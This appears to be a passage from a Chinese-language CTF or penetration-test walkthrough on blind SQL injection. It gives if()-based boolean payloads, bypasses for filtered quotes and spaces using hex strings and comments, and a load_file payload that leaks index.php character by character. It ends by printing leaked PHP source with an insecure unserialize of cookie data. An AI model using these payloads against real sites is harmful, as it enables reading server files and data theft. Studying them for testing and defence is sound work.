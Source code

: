if( 条件，满足则取此值，不满足则取此值)

这个测试语句if的条件是1，恒真，所以id=2

页面上**显示了id是2号用户的信息**，而非1号。

为了**测试是否过滤了引号**，可以尝试

if(length('a')=1,1,2)

若引号生效，应当是长度为1，满足条件返回1

**测试是否能执行函数，且执行后是否有返回字符串**的几种方式，如测试version()是否执行：

（1）可以用长度判断：

if((length( version() ) > 0 ),1,2) 返回1就有执行，2无

（2）还可以用like通配%

if( (version() like '%'),1,2) 返回1说明有执行，2无

（3）还可以取第一个字符的ascii码是否大于0

if(ascii(substr(version(),1,1))>0,1,2)

总之测出来有执行，**但发现被过滤了引号和空格**

绕过的方法在前文已经讲了，引号不能用了，into outfile也就不能用了，空格可以用/**/替代，也可以不用空格

**来一个即不需要空格，也不需要引号的注入payload，并用load_file函数读取文件：**

if(substr((load_file(0x696e6465782e706870)),1,1)=0x62,1,2);

其中load_file的参数是index.php的十六进制，表示读取index.php的第一个字符，判断是否为0x62

可以用二分法，这样**逐字泄露出整个文件**。。

判断第一个字符是否大于等于a

select if(substr((load_file(0x696e6465782e706870)),1,1)>=0x61,1,2);

判断第二个字符是否大于等于a

select if(substr((load_file(0x696e6465782e706870)),2,1)>=0x61,1,2);

**整个文件被泄露后，关键源码如下：**

```
<?php
require_once('config/sys_config.php');
require_once('header.php');
if (isset($_COOKIE['CONFIG'])) {
    $config = $_COOKIE['CONFIG'];
    require_once('config/config.php');
}
?>
```

```
<?php
$config = unserialize(base64_decode($config));
if (isset($_GET['p'])) {
    $p = $_GET['p'];
    $config->$p;
}

class Config
{
    private $config;
    private $path;
    public $filter;
    public function __construct($config = "")
    {
        $this->config = $config;
```